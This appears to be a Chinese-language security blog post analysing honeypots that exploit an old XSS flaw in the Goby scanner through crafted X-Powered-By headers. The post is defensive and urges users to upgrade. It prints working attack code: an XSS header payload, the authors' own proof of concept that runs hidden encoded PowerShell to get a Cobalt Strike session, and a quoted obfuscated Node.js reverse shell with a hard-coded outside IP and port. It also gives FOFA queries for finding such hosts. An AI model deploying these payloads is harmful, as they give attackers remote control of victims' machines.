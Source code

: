 # 0x01 概述

近期我们联动FORadar做了一个插件，实现了从企业名称->企业漏洞的全自动检测流程，在做具体实践的时候碰到了两个很有意思的蜜罐，其中一个蜜罐内置了Weblogic漏洞，同时配置有专门针对旧版本Goby反制Payload，而另一个蜜罐则具备较强的隐蔽性，若非团队有专门研究蜜罐的人员，差点栽在这给蜜罐上，当然，这篇文章主要想聊聊第一个蜜罐，第二个有机会再单独拿出来探讨。

# 0x02 缘起
![在这里插入图片描述](https://img-blog.csdnimg.cn/4097a5d01eb34a558af7adfc43fbfcd8.png#pic_center)


故事的最开始，自然是使用Goby检测到了一个WebLogic远程代码执行漏洞，准备利用此漏洞进行后续动作的时候，团队成员发现这个目标并不简单：
![在这里插入图片描述](https://img-blog.csdnimg.cn/0220647644ee4df18e146a4fa42cdff7.jpeg#pic_center)

在返回包的头部中携带着反制Payload（IP已做脱敏处理）；

```html
X-Powered-By: PHP/7&#38;&#35;&#56;&#54;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#55;&#55;&#59;&#38;&#35;&#54;&#54;&#59;&#38;&#35;&#55;&#49;&#59;&#38;&#35;&#55;&#52;&#59;&#38;&#35;&#56;&#55;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#53;&#55;&#59;&#38;&#35;&#56;&#53;&#59;&#38;&#35;&#49;&#48;&#52;&#59;&#38;&#35;&#49;&#49;&#48;&#59;<img	src=1	onerror=&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x28;&#x75;&#x6e;&#x65;&#x73;&#x63;&#x61;&#x70;&#x65;&#x28;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x32;&#x37;&#x2e;&#x30;&#x2e;&#x30;&#x2e;&#x31;&#x3a;&#x38;&#x30;&#x38;&#x30;&#x2f;&#x56;&#x6e;&#x4d;&#x42;&#x47;&#x4a;&#x57;&#x75;&#x39;&#x55;&#x68;&#x6e;&#x2f;&#x4e;&#x6f;&#x64;&#x65;&#x2e;&#x6a;&#x73;&#x27;&#x29;&#x29;>
```

显然这是一串经过HTML实体编码的代码，让我们解码看看；

```html
X-Powered-By: PHP/7&#86;&#110;&#77;&#66;&#71;&#74;&#87;&#117;&#57;&#85;&#104;&#110;<img	src=1	onerror=import(unescape('http://127.0.0.1:8080/VnMBGJWu9Uhn/Node.js'))>
```

在这个逻辑上就显而易见了，这是一个常见的XSS Payload，目的是希望执行`/VnMBGJWu9Uhn/Node.js`文件，那么让我们来看看这个js文件；
![在这里插入图片描述](https://img-blog.csdnimg.cn/d932de475a7c4bb9b8fcc338080c2e58.png#pic_center)


可以看到这是一串nodejs的利用代码，作用并不复杂，首先定义一个download函数，从远端下载文件，然后根据操作系统，来下载不同的恶意文件，如果是Windows则直接下载可执行文件，如果是MAC则下载Python3脚本文件，执行Python脚本；

那么现在问题来了，为啥这样就能反制Goby呢？这实际上是一个非常久远的历史漏洞，最早的纰漏的时间是在2021年10月，当月漏洞就已修复并发布新版本，至于漏洞为何存在，得追溯到Goby的组件识别能力，Goby使用Electron构建客户端软件，在Goby的资产界面中，会展示所有符合指纹识别规则的组件名称，比如PHP、IIS等，而为了更为精准的组件识别，Goby会从返回的数据报文中提取版本信息，并在界面渲染展示，在旧版本的Goby中并未对版本信息做无害化处理，从而导致漏洞产生。

# 0x03 缘起如果我用的Goby存在这个漏洞会怎样？

在达成条件之后，这个漏洞能够带来的后果非常严重，可以被反制方直接控制Goby所在的PC，但幸运的是这个漏洞并不是一个0click漏洞，需要Goby的使用人员来配合交互才能达成触发条件。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6f5c7c20884c4f488411bda809ab93af.png#pic_center)


如你所见，这是正常的资产界面，以及版本信息提取结果，但可以通过构造HTTP头部的方式，来对版本信息进行调整，比如这样：

```php
#index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=\"alert(1);\">");
?>
```

此时，用户在Goby界面上看到的结果是这样的：

![在这里插入图片描述](https://img-blog.csdnimg.cn/d03b04b8a1a04672b616853c8bdd2d63.jpeg#pic_center)


在界面上可以很清楚的看到反制方所使用的payload，该页面上并不会触发XSS代码，但如果此时只要点击进入IP详情界面，如下图所示，就会触发XSS代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/c44e2d1d4d2548fa9c140012adc9a0cf.jpeg#pic_center)


反制方当然可以利用此漏洞做更多的事情，可以跟上述蜜罐设备一样从远端下载恶意文件并触发执行，也可以直接调用Powershell执行ShellCode，上线CS：

```php
# index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=import(unescape('http%3A//119.**.**.135%3A18899/js/1.js'))>");
?>
```

```js
// /js/1.js
(function(){require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAc......(省略)');})();

```

当用户点击进入IP详情页面后，不会有任何感知，但实际上已经悄然执行powershell代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/c763d5f1da7e4bcb9e90ddc208c4b06a.jpeg#pic_center)


成功上线CS

![在这里插入图片描述](https://img-blog.csdnimg.cn/df5b2c30d0b74ccaac1a1c1ac9a9fea7.jpeg#pic_center)


所以，尽快升级Goby到最新版本吧~~，除了自身漏洞的修复，我们也一直在推出更多好用、实用的新功能期待师傅们的体验和反馈。

# 0x04 还有多少个蜜罐在望眼欲穿呢？

诚如我们前文所说，这是一个已经修复近两年前的漏洞了，但是在全球范围内，仍然有着大量的蜜罐设备，再等待着某一个仍然使用旧版本Goby的好心人，我们可以使用一条FOFA语法便可以很快的找到这些目标：

```bash
header="img" && header="onerror"
```

可以看到，在全球范围内，有近1899条蜜罐记录，其Payload也大同小异，与前文碰到的蜜罐设备一致，有意思的是在境外也有数十条记录（~~老外也想反制Goby？~~）。

而从产品分布的角度来说，这类蜜罐广泛覆盖在：深信服VPN、致远OA、RANZHIOA、泛微OA、phpMyAdmin等在攻防场景中广泛涉及的产品和应用，师傅们碰到这些资产可要多个心眼。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3fe8dc14d6b4b36b7d4318797f5763a.png#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/6e52b8829226455c8101aaa2d2ca1b7f.png#pic_center)



我们也可以对Fofa语法进行略微的调整，看看有没有一些新东西

```bash
header="img" && header="onerror" && header!="PHP"
```

剔除掉同类蜜罐后，仅剩下160条记录，明显有着与之前蜜罐设备不同的利用方式
![在这里插入图片描述](https://img-blog.csdnimg.cn/df09f55ecdf445a9be0343c96fb13667.png#pic_center)


```bash
X-Powered-By: <img src=# onerror=window.open('https://202.**.***.12/help.html')>
```

跟进到help.html之后，发现是一个经过混淆的Payload

```html
<!-- help.html !-->
<!DOCTYPE HTML>
<html>
<head>
    <meta charset="utf-8" />
    <script>
        var _0x1c94=['temp.js','utf8','writeFile','uuid','child_process','fork','/tmp/temp.js'];var _0x4cc5=function(_0x1c94c3,_0x4cc551){_0x1c94c3=_0x1c94c3-0x0;var _0x3be382=_0x1c94[_0x1c94c3];return _0x3be382;};var _0x551876='';var _0x840f11='\x0avar\x20_0x411b=[\x27net\x27,\x27child_process\x27,\x27platform\x27,\x27spawn\x27,\x27/bin/bash\x27,\x27Socket\x27,\x27connect\x27,\x27stdout\x27,\x27pipe\x27];var\x20_0x4b64=function(_0x411be0,_0x4b6451){_0x411be0=_0x411be0-0x0;var\x20_0x278a8f=_0x411b[_0x411be0];return\x20_0x278a8f;};var\x20_0x1f656a=\x27106.75.15.34\x27;var\x20_0xb2ca98=\x2722220\x27;(function(){var\x20_0x58cd49=require(\x27os\x27);var\x20_0x20a0b2=require(\x27fs\x27);var\x20_0x2af086=require(_0x4b64(\x270x0\x27));var\x20_0x597913=require(_0x4b64(\x270x1\x27));var\x20_0x269932=_0x58cd49[_0x4b64(\x270x2\x27)]();if(_0x269932==\x27win32\x27){var\x20_0x16b7e1=_0x597913[\x27spawn\x27](\x27cmd\x27,[]);}else{var\x20_0x16b7e1=_0x597913[_0x4b64(\x270x3\x27)](_0x4b64(\x270x4\x27),[\x27-i\x27]);}var\x20_0x293f60=new\x20_0x2af086[(_0x4b64(\x270x5\x27))]();_0x293f60[_0x4b64(\x270x6\x27)](_0xb2ca98,_0x1f656a,function(){_0x293f60[\x27pipe\x27](_0x16b7e1[\x27stdin\x27]);_0x16b7e1[_0x4b64(\x270x7\x27)][_0x4b64(\x270x8\x27)](_0x293f60);_0x16b7e1[\x27stderr\x27][\x27pipe\x27](_0x293f60);});return/a/;}());\x0a';var _0x2b76a6=require('fs');var _0x512c82=require('os')['platform']();if(_0x512c82=='win32'){_0x2b76a6['writeFile'](_0x4cc5('0x0'),_0x840f11,_0x4cc5('0x1'),function(_0x4af088){});_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x3'),_0x551876,_0x4cc5('0x1'),function(_0x3e2b1c){});require(_0x4cc5('0x4'))[_0x4cc5('0x5')](_0x4cc5('0x0'),{'detached':!![]});}else{_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x6'),_0x840f11,_0x4cc5('0x1'),function(_0x261f0f){});_0x2b76a6['writeFile']('/tmp/uuid',_0x551876,'utf8',function(_0x474cc8){});require('child_process')['fork'](_0x4cc5('0x6'),{'detached':!![]});}
    </script>
</head>

<body>
</body>
</html>
```

虽然绝大部分代码已经经过混淆，但不难看出Payload的用意是将恶意文件写入磁盘并调用执行，但从最初的语法来说，这应该并不止针对于Goby的蜜罐设备，在Goby中没能，推测可能是某一种扫描器，该扫描器使用了某种框架 ，既集成了浏览器的解析环境，又可以直接在该浏览器的解析环境中调用node.js的代码，从而触发反制者的Payload。

# 0x05 尾声

到这里关于蜜罐的分析就结束了，也提前预告一下我们最近在为Goby实战场景的最佳实践做了大量的测试，目前也小有收获，近期会发布相关版本和文章，希望师傅们保持关注不要错过~

# 0x06 参考

- [闲来无事，反制Goby](https://mp.weixin.qq.com/s/EPQZs5eQ4LL--tao93cUfQ)




Goby 官网: https://gobysec.net/
如果您有任何反馈建议，您可通过提交 issue 或是以下方式联系我们：
GitHub issue: https://github.com/gobysec/Goby/issues
微信群：关注公众号“GobySec“，回复暗号”加群“ （社群优势：可第一时间了解Goby功能发布、活动等咨询）
Telegram Group: http://t.me/gobies
推特：https://twitter.com/GobySec
